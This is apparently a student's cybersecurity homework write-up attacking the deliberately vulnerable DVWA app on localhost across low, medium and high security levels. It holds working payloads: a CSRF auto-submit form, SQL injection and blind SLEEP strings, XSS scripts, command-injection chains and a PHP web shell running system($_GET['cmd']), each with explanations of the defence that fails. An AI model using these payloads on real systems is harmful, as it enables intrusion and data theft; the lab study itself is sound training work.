# dvwa-security-lab
CS 382 Cybersecurity Homework 02

---

## Part 1: Install Docker

Docker installed and verified to ensure containers could run correctly.



---

## Part 2: Deploy DVWA in Docker

After installing Docker, the next step was DVWA deployment.



The container was started and accessed through the browser at:

```
http://localhost:8080
```



---

## Part 3: Vulnerability Testing

In this section, vulnerabilities available in DVWA are tested to understand how web applications can be exploited when proper security mechanisms are not implemented.

---

### Vulnerability: Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a vulnerability where an attacker tricks a logged-in user's browser into sending a request to a website without the user's knowledge. If the application does not verify the request properly, actions such as changing a password can be performed without the user intending to do it.

---

#### Security Level: Low

**Payload Used**

```html
<html>
<body onload="document.forms[0].submit()">

<form action="http://localhost:8080/vulnerabilities/csrf/" method="GET">
<input type="hidden" name="password_new" value="hacked">
<input type="hidden" name="password_conf" value="hacked">
<input type="hidden" name="Change" value="Change">
</form>

</body>
</html>
```

**Result**

The attack worked successfully and the password was changed.

**Screenshot**



**Explanation**

At the Low security level, DVWA does not check where the request is coming from. Because of this, the malicious HTML page was able to send a request to the server and change the password while the user was logged in. Since there is no validation, the server accepts the request and performs the action.

---

#### Security Level: Medium

**Payload Used**

The same payload used in the Low security level was tested again.

**Result**

The attack initially failed when the HTML file was opened locally. After hosting the file using a local web server, the request worked because the referer appeared to come from localhost.

**Screenshot**



**Explanation**

At the Medium security level, DVWA checks the HTTP Referer header. This means the application tries to verify that the request is coming from the same website. When the attack page was opened locally, the referer header was missing so the request failed. When the malicious page was hosted on a local server, the referer contained `localhost`, which allowed the request to bypass the check. This shows that using only the referer header is weak protection.

---

#### Security Level: High

**Payload Used**

The same payload was tested again but without including a valid CSRF token as it changes every session and is generated dynamically.

**Result**

The attack failed and the password was not changed.

**Screenshot**



**Explanation**

At the High security level, DVWA uses a CSRF token called `user_token`. This token is generated by the server and must be included in the request. Since the malicious request did not contain the correct token, the server rejected the request and the attack failed.

---

### Vulnerability: SQL Injection

SQL Injection happens when user input is directly used in an SQL query without proper validation. An attacker can manipulate the query to access or modify database information.

#### Security Level: Low

**Payload Used**

```
1' OR '1'='1
```

**Result**

All user records were displayed from the database.

**Screenshot**



**Explanation**

At the Low security level, the user input is directly placed into the SQL query. Since there is no input filtering or validation, the injected condition `'1'='1'` is always true. Because of this, the database returns all records.

---

#### Security Level: Medium

**Payload Used**

```
1
```

**Result**

User records were still displayed.

**Screenshot**


**Explanation**

At the Medium level, DVWA uses the function `mysql_real_escape_string()` to escape special characters. However, the parameter is treated as a numeric value and is not placed inside quotes in the SQL query. Because of this, the escaping does not fully protect the query and SQL injection is still possible.

---

#### Security Level: High

**Payload Used**

```
a' UNION SELECT "test1","test2";-- -
```

**Result**

Custom values appeared in the output.

**Screenshot**



**Explanation**

At the High level, additional checks are added, but the SQL query is still created dynamically instead of using prepared statements. Because of this, a UNION-based injection can still modify the query result and display attacker‑controlled values.

---

### Vulnerability: Reflected Cross-Site Scripting (XSS)

Reflected XSS occurs when user input is immediately included in the webpage output without proper sanitization. This allows attackers to execute JavaScript in the user's browser.

#### Security Level: Low

**Payload Used**

```
<script>alert('XSS')</script>
```

**Result**

An alert popup appeared in the browser.

**Screenshot**


**Explanation**

At the Low security level, the application does not sanitize or filter user input before displaying it in the response. Because of this, the injected script runs directly in the browser.

---

#### Security Level: Medium

**Payload Used**

```
<ScRiPt>alert("XSS")</ScRiPt>
```

**Result**

The alert popup still appeared.

**Screenshot**


**Explanation**

At the Medium level, the application filters the `<script>` tag, but the filter is case‑sensitive. By changing the case of the letters (`<ScRiPt>`), the filter was bypassed and the script executed.

---

#### Security Level: High

**Payload Used**

```

```

**Result**

An alert popup appeared.

**Screenshot**


**Explanation**

The filter removes `<script>` tags but does not sanitize HTML event attributes such as `onerror`. By using an image tag with an event handler, JavaScript was still executed in the browser.

---

### Vulnerability: Stored Cross-Site Scripting (Stored XSS)

Stored XSS occurs when malicious input is stored on the server and executed every time the page is loaded.

#### Security Level: Low

**Payload Used**

Name: Aliza
Message:

```
<script>alert('Stored XSS')</script>
```

**Result**

The alert appeared every time the page was refreshed.

**Screenshot**



**Explanation**

At the Low level, the application does not validate or sanitize the stored input. The malicious script is saved in the database and executed whenever the page loads.

---

#### Security Level: Medium

**Payload Used**

```
<sCriPt>alert("XSS");</sCriPt>
```

**Result**

The alert appeared.

**Screenshot**


**Explanation**

Some filtering is applied at this level, but it is not applied to all input fields. The Name field was not properly filtered, which allowed the script to execute.

---

#### Security Level: High

**Payload Used**

```
</div>
```

**Result**

The JavaScript did not execute.

**Explanation**

At the High security level, stronger filtering and output encoding are used. Dangerous attributes such as `onerror` are removed or encoded, so the browser treats the input as normal text instead of executing it.

---

### Vulnerability: Command Injection

Command Injection occurs when user input is passed directly into system commands without proper validation.

#### Security Level: Low

**Payload Used**

```
127.0.0.1 && dir
```

**Result**

After the ping command ran, the directory files were also displayed.

**Screenshot**



**Explanation**

At the Low level, the application does not filter command operators. By adding `&&`, another command was executed after the ping command finished.

---

#### Security Level: Medium

**Payload Used**

```
127.0.0.1 & dir
```

**Result**

The ping command ran and the directory listing was also shown.

**Screenshot**



**Explanation**

Some operators are filtered at this level, but the background operator `&` is not blocked. This allowed the attacker to run an additional command.

---

#### Security Level: High

**Payload Used**

```
127.0.0.1|dir
```

**Result**

The application displayed the directory listing along with the ping result.

**Screenshot**



**Explanation**

The developer tried to filter certain patterns and used `trim()` to remove spaces. However, removing spaces around the operator allowed the filter to be bypassed and command injection was still possible.

---

### Vulnerability: SQL Injection (Blind)

Blind SQL Injection occurs when the application does not directly display database results, but attackers can still determine information based on responses or delays.

#### Security Level: Low

**Payload Used**

```
1' AND 1=1#
```

**Result**

The message “User ID exists in the database” appeared.

**Screenshot**


**Explanation**

At the Low level, user input is directly inserted into the SQL query. Because the condition `1=1` is true, the query returns a valid result, confirming that SQL injection is possible.

---

#### Security Level: Medium

**Payload Used**

```
1
```

**Result**

The message indicated that the user ID exists.

**Screenshot**


**Explanation**

Although `mysql_real_escape_string()` is used, the query still treats the parameter as numeric and not enclosed in quotes. Because of this, the protection is incomplete.

---

#### Security Level: High

**Payload Used**

```
1' AND SLEEP(5)#
```

**Result**

The page took around 5 seconds to respond.

**Screenshot**



**Explanation**

The High level hides database output, but the injected SQL command is still executed. By using the `SLEEP()` function, the attacker can detect the vulnerability through response delays.

---

### Vulnerability: JavaScript Attacks

This vulnerability involves bypassing validation logic implemented in client-side JavaScript.

#### Security Level: Low

**Payload Used**

Manual execution of `generate_token()` in the browser console.

**Result**

The token was generated and validation succeeded.

**Screenshot**



**Explanation**

The token generation logic was implemented on the client side. By analyzing and manually running the function in the browser console, the correct token was generated.

---

#### Security Level: Medium

**Payload Used**

Manual execution of `do_elsesomething("XX")` in the browser console.

**Result**

The hidden token was regenerated and the form submission worked.

**Screenshot**


**Explanation**

The token was still generated using client-side JavaScript. By manually running the function in the browser console, the correct token was produced.

---

#### Security Level: High

**Payload Used**

None (manual token generation attempt).

**Result**

The token could not be regenerated.

**Explanation**

At the High security level, token validation is handled on the server side. Because of this, manually running JavaScript functions in the browser cannot bypass the validation.

---

### Vulnerability: Brute Force

Brute Force attacks try many username and password combinations until the correct one is found.

#### Security Level: Low

**Payload Used**

```
admin : password
```

**Result**

Login was successful.

**Screenshot**


**Explanation**

There are no protections such as rate limiting or account lockout. Attackers can repeatedly try many password combinations until they find the correct one.

---

#### Security Level: Medium

**Payload Used**

```
admin : password
```

**Result**

Login was successful.

**Screenshot**



**Explanation**

A delay is added after failed login attempts. This slows down brute force attacks but does not fully prevent them.

---

#### Security Level: High

**Payload Used**

```
admin : password
```

**Result**

Authentication succeeded.

**Screenshot**


**Explanation**

The High level includes stronger validation and CSRF tokens, but weak credentials can still be guessed if strong password policies are not enforced.

---

### Vulnerability: File Upload

File upload vulnerabilities occur when a web application allows users to upload files without properly validating them. Attackers can upload malicious files such as scripts which may execute on the server.

---

#### Security Level: Low

**Payload Used**

```
shell.php
```

Content of the uploaded file:

```php
<?php
echo "File upload successful";
system($_GET['cmd']);
?>
```

**Result**

The file uploaded successfully and the PHP code executed when the file was opened in the browser.

**Screenshot**




**Explanation**

At the Low security level, the application does not check the file type or extension. Because of this, a malicious PHP file can be uploaded directly. When the uploaded file is accessed through the browser, the PHP code runs on the server.

---

#### Security Level: Medium

**Payload Used**

```
shell.php.jpg
```

**Result**

The file was successfully uploaded even though it contained PHP code.

**Screenshot**



**Explanation**

At the Medium security level, the application tries to restrict uploads by checking the file extension. However, this protection is weak. By using a double extension such as `.php.jpg`, the application thinks the file is an image and allows the upload. This shows that relying only on file extensions for validation is not secure.

---

#### Security Level: High

**Payload Used**

```
shell.php
shell.php.jpg
shell.php5
shell.phtml
```

**Result**

The upload was blocked and the malicious file could not be uploaded.

**Screenshot**



**Explanation**

At the High security level, stronger validation is applied. The application checks the file type and verifies whether the uploaded file is a real image. Because the uploaded file contained PHP code instead of image data, the server rejected it and the attack failed.

---

### Vulnerability: Weak Session IDs

Weak Session IDs occur when a web application generates session identifiers that are predictable. Attackers can exploit this to hijack other users’ sessions and impersonate them.

---

#### Security Level: Low

**Payload Used**

Generated session IDs using DVWA’s **Generate** button. Observed session values from browser cookies.

**Result**

The session IDs were sequential integers: 1, 2, 3, 4, 5

This allows an attacker to easily predict the next session ID and hijack a session.

**Screenshot**


**Explanation**

At Low security, DVWA generates session IDs as **incrementing integers**, making them fully predictable. No randomness or hashing is applied, so an attacker can simply guess the next ID to hijack a session.

---

#### Security Level: Medium

**Payload Used**

Generated session IDs at Medium level and observed cookies.

**Result**

The session IDs were based on **Unix timestamps**, e.g.: 1699443834, 1699443835, 1699443836

These could be guessed if the attacker knew approximately when the session was created.

**Screenshot**



**Explanation**

At Medium security, DVWA uses **timestamps** to generate session IDs. While less predictable than sequential integers, an attacker can still estimate session IDs based on the current time, making this partially vulnerable.

---

#### Security Level: High

**Payload Used**

Generated session IDs at High level and observed cookies.

**Result**

The session IDs were **long random hash values**, e.g.: 7c4a8d09ca3762af61e59520943dc264

These are not sequential or timestamp-based, making them harder to predict, but MD5 is considered **cryptographically weak** and can be subject to collision attacks.

**Screenshot**



**Explanation**

At High security, DVWA generates session IDs using **MD5 hashes**. While this increases unpredictability compared to Low and Medium, MD5 is **not recommended for secure session IDs**. Modern best practices require cryptographically secure random functions (e.g., `random_bytes()` in PHP) instead of MD5.


---
